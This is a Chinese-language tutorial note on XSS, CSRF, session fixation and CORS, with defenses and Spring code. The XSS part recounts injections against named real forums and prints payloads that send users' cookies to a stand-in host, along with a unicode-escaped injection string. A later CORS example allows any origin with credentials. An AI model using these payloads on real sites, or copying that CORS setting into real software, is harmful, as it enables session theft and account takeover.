

# 介绍

我们常说的网络安全其实应该包括以下三方面的安全： 

1. 机密性，比如用户的隐私被窃取，帐号被盗，常见的方式是木马。 
2. 完整性，比如数据的完整，举个例子，康熙传位十四子，被当时四阿哥篡改遗诏：传位于四子，当然这是传说，常见的方式是XSS跨站脚本攻击和csrf跨站请求伪造。 
3. 可用性，比如我们的网络服务是否可用，常用的攻击方式是dos和ddos，拒绝服务和分布式拒绝服务攻击。

# XSS

## 介绍

Cross-site scripting，为了和CSS层叠样式表区分所以取名XSS。是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。

**想要CSRF获取用户的信息，就必须XSS注入成功，但是如果不需要获取用户的信息（解析服务器传来的数据，也就不需要配合XSS）**

下面的例子我只是简单的注入alert(‘xss’)，至于恶意用户完全可以把alert(‘xss’)换成他想要的任意的js代码，用来发送post或者get请求修改用户的资料，获取用户好友信息，伪造发送私信，甚至做成蠕虫散播到整个web应用，所以千万不要小看了XSS注入攻击带来的后果，并不是alert一个对话框那么简单！

## 案例

### 1

我是苏州人，我就先拿本地的官方论坛www.2500sz.com开刀吧。

我打开2500sz.com的论坛然后注册了一个帐号，发布一个新话题，输入以下代码：


上面的代码就是输入一个网络分享的图片，我在src中直接写入了javascript:alert('xss')；操作成功后生成帖子，用IE6、7的用户打开这个我发的这个帖子就会出现下图的alert('xss')弹窗。 


当然我会将标题设计的非常吸引人点击，比如 “陈冠希艳照又有流出2012版(20P无码)” ，这样如果我将里面的alert换成恶意代码，比如：

```js
location.href='http://www.xss.com?cookie=’+document.cookie;
```

用户的cookie我也拿到了，如果服务端session没有设置过期的话，我以后甚至拿这个cookie而不需用户名密码，就可以以这个用户的身份登录成功了。

这里的location.href只是处于简单这样做，如果做了跳转这个帖子很快会被管理员删除，但是如果我写如下代码，并且帖子的内容也是比较真实的，说不定这个帖子就会祸害很多人：

```js
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);
```

这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。

### 2

 我们访问www.szr.com社区，这是一个面向于苏州人的sns社区，主要界面是抄袭的新浪微博。

注入尝试1：


直接输入<script>标签，发现php将单引号和双引号都转义了，而且也将<>这类符号过滤掉了，尝试失败，继续寻找突破口。

注入尝试2：

图片注入，有些sns社区可以让用户自己上传图片，然后填写ref属性或者title属性，这些属性往往会成为注入点，如果应用程序文件名没有修改的话也可能被注入。更有胜者，在新版本的discuz中，用户可以分享照片还可以查看照片的exif信息，比如光圈相机型号等等，有达人用软件修改了exif信息，在里面嵌入恶意js代码，然后吸引用户查看exif信息。

但是这个szr社区并不提供图片title设置，而且上传的图片都经过服务端的改名了。尝试再次失败，不气馁继续寻找突破口。

注入尝试3：

我们发现了视频这个按钮，这个功能可以通过视频的连接地址分享视频，比如我可以发优酷上的视频地址来分享给其他用户。于是我打开视频功能，在输入框中写入：

```javascript
http://www.baidu.com/“onclick=alert('xss') title="xss"
```

生成了如下图的情况： 


虽然注入还是失败了，php将单引号转义了，但是我们发现szr社区并没有对我输入的url进行有效性验证，而且没有过滤双引号，所以导致了整个html的dom元素测漏了。测漏是一个术语，表示XSS攻击提前闭合了html标签。我们找到了突破口，下面就是如何处理掉讨人厌的转义反斜杠了。

注入尝试4：

既然单引号和双引号都被转义干掉了，我们就不能利用他们了，换一个思路我们可以绕过单引号和双引号输出字符串吗？答案是肯定的，我再添加视频路径，输入以下代码：

```js
http://www.baidu.com/"onclick=alert(this.name) name=xss ref=xss
```

构建成功后如图： 


我们成功注入了onclick事件和name属性，接下来发生的事情就和我们想象中一样了


当用户点击了我们的视频按钮，弹出了对话框xss，我们注入成功了，喝杯椰奶庆祝下把！

可能有些朋友会说那是因为php端没有验证视频的有效性，比如这段url放在浏览器中是无法打开的，只需要在后端简单请求一下这个地址就可以过滤掉这类攻击了，答案当然也是否定的，我们看如下代码：

```js
http://www.baidu.com/#"onclick=alert(this.name) name=xss ref=xss
```

你可以把这段url贴入到浏览器中，发现还是可以打开百度页面的。所以仅仅验证url的有效性是远远不够的。

### 3 

www.renrenwei.com是我之前单位的团队做的一个sns项目，我离职之后他们还在开发新版本，目前线上的版本XSS注入点之多令人结舌。几乎毫不设防，我们来简单看一下注入的流程：

人人围sns允许用户通过百度的edit发布文字分享，坑爹的是他竟然还允许直接编辑html标签

尝试1： 直接在edit中写入<script>标签，结果被过滤掉了，如此赤裸裸的注入还不被干掉简直太对不起老板了。

尝试2： 我们插入一张图片，打开html源码查看，直接在里面写上onload=“alert(‘xss’)”，见图：


上图我们插入了恶意代码，当图片onload事件结束就执行js脚本了


百度的edit果然坑爹了！弹出了xss，我们注入成功了，网站还有很多注入点，比如发视频等等不一一列举了。

### 4

ajax的json注入

一时也找不到例子，我就简单介绍一下这类注入的原理吧。现代网站为了加快加载和更好的用户体验，都大量使用了ajax，通信协议大部分是json字符串格式的，而页面为了多语言也使用了utf-8编码。

比如有这样的一个场景，是一篇博文的详细页，很多用户给这篇博文留言，为了加快页面加载速度，程序设计师要求先显示博文的内容，然后通过ajax去获取留言的第一页内容，通过ajax分页点击下一页获取第二页的留言。

这么做的好处有：

A.加快了博文详细页的加载，因为留言信息往往有用户头像，昵称，id等等，需要多表查询而且一般用户会先看博文，再拉下去看留言，这时留言已经加载完毕了。

B.AJAX的留言分页能够更加快速的响应，用户不必让博文重新刷新一边，而是直接查看更多的留言。

看上去一切都很美好的，用户进入详细页，先慢慢看博文，此时ajax辛勤的工作去拿留言的内容，然后显示在页面底部，但是当制作这个页面的前端工程师用如下代码后事情就不那么美好了。大家能看出什么端倪来吗？

```js
var commentObj = $('#comment'); 
$.get('/getcomment', {r:Math.random(),page:1,article_id:1234},function(data){  
    if(data.state !== 200)  return commentObj.html('留言加载失败。')  
    commentObj.html(data.content);
},'json');
```

我们的设计初衷是，后端将留言内容套入模板，存入json格式如下： {state:200, content:“模板的字符串片段”} 然后输出这段模板中的代码。

如果没有看出问题，我们继续。我们尝试执行下面的代码：

```js
$('div:first').html('<script>alert("xss")</script>');
```

ok正常弹出了alert框xss，你可能觉得这比较小儿科，我们强大的php程序员经过上面3种情况的历练已经完全过滤掉和转义了尖括号<>还有单双引号了"’，所以上面的那串恶意代码会漂亮的变成如下字符打印到留言内容中。

```js
<script> alert("xss")</script> 
```

先表扬一下我们的php程序员，做的很好可以将常规的一些xss注入都屏蔽掉了，但是在utf-8中，字符还有一种表示方式，那就是unicode码，我们把上面的恶意字符串改写成如下：

```js
$('div:first').html('\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e');

```

HOHO，大家可以去有jquery的网站上打开firbug运行一下，发现还是输出了alert的xss，可见我们的注入又成功了，只是这次累一点，需要将写好的恶意代码放入转码器中做下转义。

当年的webqq曾经就报过上面这种 Unicode 的XSS注入漏洞！

最后做下unicode和utf-8的扫盲，他们之间的区别和联系。 因为ASCII（128位不够用，有些国家256都不够用），所以出现了Unicode (解决ASCII编码不够用的情况)，当然 Unicode  和我们的GB2312是完全毫无关系的，Unicode只是一个符号集，它只规定了符号的二进制代码，而utf-8是Unicode的实现方式之一，我们看UTF-8的英文全称就知道了：Unicode Transformation Format。 UTF-8最大的一个特点，就是它是一种变长的编码方式。它可以使用1~4个字节表示一个符号，根据不同的符号而变化字节长度，而Unicode  如果转变为16进制的话则是固定的长度的，这对某些英文字体来说是存储空间的浪费，我们看如下对应表就知道了：

```
Unicode符号范围 | UTF-8编码方式 
 (十六进制) | （二进制）  
 0000 0000-0000 007F | 0xxxxxxx 
 0000 0080-0000 07FF | 110xxxxx 10xxxxxx  
 0000 0800-0000 FFFF | 1110xxxx 10xxxxxx 10xxxxxx 
 0001 0000-0010 FFFF | 11110xxx 10xxxxxx 10xxxxxx 10xxxxxx 
```

Javascript利用\u表示unicode编码

尾声：XSS和CSRF一直存在于我们的身边，大家可以网上搜一下，大片片的漏洞介绍，包括新浪微博，webqq等大型公司的互联网应用也曾经或者还存在这类漏洞。 想要彻底抵御此类攻击确实比较困难，相信看了本文聪明的你心中肯定会有对策了。

## 参考文献

[实验室之 XSS 娱乐]( https://zhuanlan.zhihu.com/p/27233637)

# CSRF

## 介绍

而CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。

**CSRF 攻击是黑客借助受害者的 cookie 骗取服务器的信任，但是黑客并不能拿到 cookie，也看不到 cookie 的内容。**

对于服务器返回的结果，由于浏览器同源策略的限制，黑客也无法进行解析。因此，黑客无法从返回的结果中得到任何东西，他所能做的就是给服务器发送请求，以执行请求中所描述的命令，在服务器端直接改变数据的值，而非窃取服务器中的数据。

## **例子**

A网站通过cookie来识别用户（C），当用户成功进行身份验证之后浏览器就会得到一个标识其身份的cookie，只要不关闭浏览器或者退出登录，以后访问A网站会一直带上这个cookie。如果这期间浏览器被人控制着向A网站发起请求去执行一些用户不想做的功能（比如添加账号），**这就是会话劫持了。因为这个不是用户真正想发出的请求，这就是所谓的“请求伪造”。由于请求可以从第三方网站提交，所以前缀跨站二字，即从B网站发起。**

**具体到银行转账为例（这是网上的一个例子，一大坨...)**：

CSRF 攻击可以在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在并未授权的情况下执行在权限保护之下的操作。比如说，受害者 Bob 在银行有一笔存款，通过对银行的网站发送请求 `http://bank.example/withdraw?account=bob&amount=1000000&for=bob2` 可以使 Bob 把 1000000 的存款转到 bob2 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，并且该 session 的用户 Bob 已经成功登陆。黑客 Mallory 自己在该银行也有账户，他知道上文中的 URL 可以把钱进行转帐操作。Mallory 可以自己发送一个请求给银行：`http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory`。但是这个请求来自 Mallory 而非 Bob，他不能通过安全认证，因此该请求不会起作用。这时，Mallory 想到使用 CSRF 的攻击方式，他先自己做一个网站，在网站中放入如下代码： `src=”http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory ”`，并且通过广告等诱使 Bob 来访问他的网站。当 Bob 访问该网站时，上述 url 就会从 Bob 的浏览器发向银行，而这个请求会附带 Bob 浏览器中的 cookie 一起发向银行服务器。大多数情况下，该请求会失败，因为他要求 Bob 的认证信息。但是，如果 Bob 当时恰巧刚访问他的银行后不久，他的浏览器与银行网站之间的 session 尚未过期，浏览器的 cookie 之中含有 Bob 的认证信息。这时，悲剧发生了，这个 url 请求就会得到响应，钱将从 Bob 的账号转移到 Mallory 的账号，而 Bob 当时毫不知情。等以后 Bob 发现账户钱少了，即使他去银行查询日志，他也只能发现确实有一个来自于他本人的合法请求转移了资金，没有任何被攻击的痕迹。而 Mallory 则可以拿到钱后逍遥法外。


## 防范常规思路

防护CSRF的filter限定的Method是POST/PUT/DELETE等

### 验证 HTTP Referer 字段

根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。


### 在请求地址中添加 token 并验证

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。**要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中**。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

这种方法要比检查 Referer 要安全一些，token 可以在用户登陆后产生并放于 session 之中，然后在每次请求时把 token 从 session 中拿出，与请求中的 token 进行比对，但这种方法的难点在于如何把 token 以参数的形式加入请求。对于 GET 请求，token 将附在请求地址之后，这样 URL 就变成 `http://url?csrftoken=tokenvalue`。 而对于 POST 请求来说，要在 form 的最后加上` `，这样就把 token 以参数的形式加入请求了。但是，在一个网站中，可以接受请求的地方非常多，要对于每一个请求都加上 token 是很麻烦的，并且很容易漏掉，通常使用的方法就是在每次页面加载时，使用 javascript 遍历整个 dom 树，对于 dom 中所有的 a 和 form 标签后加入 token。这样可以解决大部分的请求，但是对于在页面加载之后动态生成的 html 代码，这种方法就没有作用，还需要程序员在编码时手动添加 token。

该方法还有一个缺点是难以保证 token 本身的安全。特别是在一些论坛之类支持用户自己发表内容的网站，黑客可以在上面发布自己个人网站的地址。由于系统也会在这个地址后面加上 token，黑客可以在自己的网站上得到这个 token，并马上就可以发动 CSRF 攻击。为了避免这一点，系统可以在添加 token 的时候增加一个判断，如果这个链接是链到自己本站的，就在后面添加 token，如果是通向外网则不加。不过，即使这个 csrftoken 不以参数的形式附加在请求之中，黑客的网站也同样可以通过 Referer 来得到这个 token 值以发动 CSRF 攻击。这也是一些用户喜欢手动关闭浏览器 Referer 功能的原因。


### 在 HTTP 头中自定义属性并验证

这种方法也是使用 token 并进行验证，和上一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上 csrftoken 这个 HTTP 头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。

然而这种方法的局限性非常大。XMLHttpRequest 请求通常用于 Ajax 方法中对于页面局部的异步刷新，并非所有的请求都适合用这个类来发起，而且通过该类请求得到的页面不能被浏览器所记录下，从而进行前进，后退，刷新，收藏等操作，给用户带来不便。另外，对于没有进行 CSRF 防护的遗留系统来说，要采用这种方法来进行防护，要把所有请求都改为 XMLHttpRequest 请求，这样几乎是要重写整个网站，这代价无疑是不能接受的。

## 参考文献

[前端安全系列之二：如何防止CSRF攻击？](https://juejin.im/post/5bc009996fb9a05d0a055192)

[Cross Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf)

# SessionFixation

## 介绍

会话劫持，crsf属于其中的一种。

## 防御

以下方法比较容易攻破，需要结合crsf的方法

### HttpOnly 

响应的 Set-Cookie 字段中有 HttpOnly 属性，这种方式避免了通过 XSS 攻击来获取 Cookie 中的会话信息进而达成会话固定攻击。

### 登录前改变sessionId

```java
HttpSession session1 = request.getSession(true);

System.out.println(session1.getId());

session1.setAttribute("",***);

后来我找了好久才发现，之所以将会话invalidate没有用，是因为invalidate方法不是真正的将session销毁，只是将session中的内容清空，所以当我invalidate以后再新建session，新建的session其实不是新的，是将之前的session重新启用了。于是session的id不变就不奇怪了。

要怎么才能真正的将session销毁掉呢？看看下面的办法：

在登录页面上加上一段代码：

request.getSession().invalidate();//清空session

Cookie cookie = request.getCookies()[0];//获取cookie

cookie.setMaxAge(0);//让cookie过期

然后用户再输入信息登录时，就会产生一个新的session了。
//我本来想找找 SessionFixation是什么和看看更换sessionId为什么必要，但是作者也提供了一个更换session的思路；我不是很懂hack方法，但是上述方法仍然只是在登录前更改sessionId，更安全的做法应该是在登录的一个请求中更改sessionId；spring security 使用javax.servlet.http.HttpServletRequest#changeSessionId
```

### 登录后更改sessionId

具体配置如下：



可以看到，在这里，我们有四个选项：

1. migrateSession 表示在登录成功之后，创建一个新的会话，然后讲旧的 session 中的信息复制到新的 session 中，**「默认即此」**。
2. none 表示不做任何事情，继续使用旧的 session。
3. changeSessionId 表示 session 不变，但是会修改 sessionid，这实际上用到了 Servlet 容器提供的防御会话固定攻击。
4. newSession 表示登录后创建一个新的 session。

默认的 migrateSession ，在用户匿名访问的时候是一个 sessionid，当用户成功登录之后，又是另外一个 sessionid，这样就可以有效避免会话固定攻击。

### StrictHttpFirewall

就是[上篇文章讲的 StrictHttpFirewall](https://link.zhihu.com/?target=https%3A//mp.weixin.qq.com/s/Fuu9rKoOvSyuvCKSyh6dUQ)，请求地址中有 `;` 请求会被直接拒绝。

# same-origin policy ；CORS

## [浏览器同源政策及其规避方法](http://www.ruanyifeng.com/blog/2016/04/same-origin-policy.html)

如果非同源，共有三种行为受到限制。

```
（1） Cookie、LocalStorage 和 IndexDB 无法读取。

（2） DOM 无法获得。

（3） AJAX 请求不能发送。

浏览器同时还规定，提交表单不受同源政策的限制。
```


## [跨域资源共享 CORS 详解](http://www.ruanyifeng.com/blog/2016/04/cors.html)

它允许浏览器向跨源服务器，发出[`XMLHttpRequest`](http://www.ruanyifeng.com/blog/2012/09/xmlhttprequest_level_2.html)请求，从而克服了AJAX只能[同源](http://www.ruanyifeng.com/blog/2016/04/same-origin-policy.html)使用的限制。CORS需要浏览器和服务器同时支持。目前，所有浏览器都支持该功能，IE浏览器不能低于IE10。

整个CORS通信过程，都是浏览器自动完成，不需要用户参与。对于开发者来说，CORS通信与同源的AJAX通信没有差别，代码完全一样。浏览器一旦发现AJAX请求跨源，就会自动添加一些附加的头信息，有时还会多出一次附加的请求，但用户不会有感觉。

因此，实现CORS通信的关键是服务器。只要服务器实现了CORS接口，就可以跨源通信。

## ajax 重定向跨域问题

  一个页面发ajax请求到后端接口，这个后端接口重定向了另外一个域名的地址；此时会出现跨域问题。

ajax调用浏览器组件发起的请求和浏览器直接发起的请求有一定区别。
　　１）浏览器可以通过返回的	http状态进行相应的操作，如访问一个页面，此页面重定向时，浏览器可以获取到重定向后的url然后进行转向。
　　２）对于ajax，ajax的目的就是无刷新的，所以对于服务器端进行了重定向时，ajax会获取到重定向状态值3xx和重定向url，然后再获取重定向的页面运行完后输出到客户端的html代码，并且返回200状态。

​    上面的场景:

如果是浏览器发送轻轻到后端接口，后端接口重定向的话是给浏览器一个302的标示，并且给一个url;浏览器拿到标示后会把地址栏的url换成后端返回的url，完成重定向动作。

如果是ajax的话，请求后端接口，后端返回302和一个url；那么ajax会根据htpp的code吗做出相对应的动作。接受到的是302那么ajax会再次发起一个请求，去请求服务端302返回的url;那么此时就跨域了。

​	**解决方式是ajax在第一次得到相应处理后需要js做一次location.href跳转。目的是让浏览器去请求重定向的接口而不是ajax.**

### 解决ajax请求不能重定向

让ajax自己能够自动重定向

#### 后端代码

1.跨域配置类（**跨域必须配置类**）

```java
 HttpSecurity.cors()//启用跨域处理，配置类CorsConfigurationSource
               
    /**
     * 跨域配置，方法名字不能改
     */
    @Bean
    public CorsConfigurationSource corsConfigurationSource() {
        CorsConfiguration config = new CorsConfiguration();
        config.addAllowedOrigin("*");//response回应添加header "Access-Control-Allow-Origin"
        config.setAllowCredentials(true);//允许请求发送Cookie和HTTP认证信息
        config.addAllowedHeader("*");//允许那些header是被允许的
        config.addAllowedMethod("*");//允许那些请求方法r
        UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        source.registerCorsConfiguration("/**", config);
        return source;
    }
1234567891011121314151617
```

2.过滤器（**这个类并不是跨域资源请求必须的，只是为了让ajax定制化处理重定向**）

用于处理ajax请求后并且被重定向，需要区分请求，让请求能够读取header，需要前后端配合

```java
public class MyFilter extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        //放行optoins请求
        if (RequestMethod.OPTIONS.name().equals(request.getMethod())){
            return true;
        }
        //获取认证
        String token = request.getHeader("Authorization");
        //未登录需要重定向，那么ajax需要重定向
        if ("null".equals(token) || StringUtils.isEmpty(token)) {
            reDirect(request, response);
            return false;
        } 
        //登录直接放行
        return true;
    }

    //对于请求是ajax请求重定向问题的处理方法
    public void reDirect(HttpServletRequest request, HttpServletResponse response) throws IOException {
        //获取当前请求的路径
        String basePath = request.getScheme() + "://" + request.getServerName() + ":" + request.getServerPort() + request.getContextPath();
        //如果request.getHeader("X-Requested-With") 返回的是"XMLHttpRequest"说明就是ajax请求，需要特殊处理
        if ("XMLHttpRequest".equals(request.getHeader("X-Requested-With"))) {
            // 暴露哪些头部信息（因为跨域访问默认不能获取全部头部信息）
            //这句代码太重要了，不写它的话，前端那边获取不到自定义的响应头，知道的话就很简单，如果不知道…简直怀疑人生！
            response.setHeader("Access-Control-Expose-Headers", "*");
            //告诉ajax我是重定向
            response.setHeader("REDIRECT", "REDIRECT");
            //告诉ajax我重定向的路径
            response.setHeader("CONTENTPATH", "登录界面url");
            response.setStatus(HttpServletResponse.SC_FORBIDDEN);
        } else {
        	//不是ajax请求直接重定向
            response.sendRedirect("登录界面url");
        }
    }

}
```

